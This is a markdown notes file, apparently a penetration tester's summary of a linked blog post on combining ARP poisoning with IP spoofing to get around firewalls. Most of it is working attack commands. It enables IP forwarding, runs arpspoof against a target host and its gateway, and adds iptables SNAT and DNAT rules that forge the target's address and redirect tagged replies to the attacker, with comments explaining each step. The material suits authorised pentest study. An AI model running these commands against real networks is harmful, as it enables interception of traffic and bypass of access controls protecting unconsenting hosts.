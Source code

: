 # Combining ARP poisoning and IP spoofing
## To bypass firewalls

https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html

1. Enable routing on your host. 
Host Route : A route to a specific internetwork address (Network ID and Host ID). Host routes allow intelligent routing decisions to be made for each network address. Host routes are used to create custom routes to control or optimize specific types of network traffic

`sysctl net.ipv4.ip_forward=1`

2. use arpspoof
arpspoof command- 
`arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2`

3. Now we need to
    tag our spoofed traffic somehow

        To tag the spoofed packets we could use the source tcp ports. Windows and Linux use specific port ranges for the source ports when initiating a new connection. For Windows this can be found with the command:

        `netsh int ipv4 show dynamicport tcp`

    Dont route the response of the tagged traffic

    Accept the tagged traffic as it was destined to the attackers host

4. # Enable routing
sysctl net.ipv4.ip_forward=1

5. Tagging is down by chaning prerouting and postrouting rules .
<!-- # Change the source port range of the attacker host

echo "40000 50000" > /proc/sys/net/ipv4/ip_local_port_range

# The outgoing packets sourced by the attacker's host (their source 
# IP is 172.16.2.20) have their source IP changed to the target 
# IP (172.16.2.10) and the source port range moved to another range.
# 
# This basically tags the outgoing traffic by spoofing the IP 
# and modifying the source ports.

iptables -t nat -A POSTROUTING -s 172.16.2.20/32 -o eth0 -p tcp -j SNAT --to-source 172.16.2.10:20000-30000

# Incoming traffic which has the target host as it's destination (172.16.2.10)
# and has destination port in the range of 20000:30000 is changed to the 
# attacker IP (172.16.2.20) and the port range is restored to 40000:50000.
# 
# This basically identifies the response of the spoofed traffic and changes
# it in order to be routed to the attacker's host.
iptables -t nat -A PREROUTING -d 172.16.2.10/32 -i eth0 -p tcp -m tcp --dport 20000:30000 -j DNAT --to-destination 172.16.2.20:40000-50000

# Start the MITM attack -->
sudo arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2



